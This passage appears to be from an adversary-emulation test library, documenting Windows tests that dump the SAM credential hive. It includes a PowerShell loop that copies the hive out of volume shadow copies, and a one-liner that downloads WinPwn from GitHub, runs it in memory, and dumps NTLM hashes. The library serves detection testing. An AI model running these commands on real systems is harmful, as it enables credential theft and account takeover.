 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_hive | Hive you wish to dump | string | SAM|
| limit | Limit to the number of shadow copies to iterate through when trying to copy the hive | integer | 10|


#### Attack Commands: Run with `powershell`! 


```powershell
1..#{limit} | % { 
 try { [System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy$_\Windows\System32\config\#{target_hive}" , "$env:TEMP\#{target_hive}vss$_", "true") } catch {}
 ls "$env:TEMP\#{target_hive}vss$_" -ErrorAction Ignore
}
```

#### Cleanup Commands:
```powershell
1..#{limit} | % {
  rm "$env:TEMP\#{target_hive}vss$_" -ErrorAction Ignore
}
```





<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Dump SAM-File for NTLM Hashes
Loot local Credentials - Dump SAM-File for NTLM Hashes technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 0c0f5f06-166a-4f4d-bb4a-719df9a01dbb






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
samfile -consoleoutput -noninteractive
```






<br/>
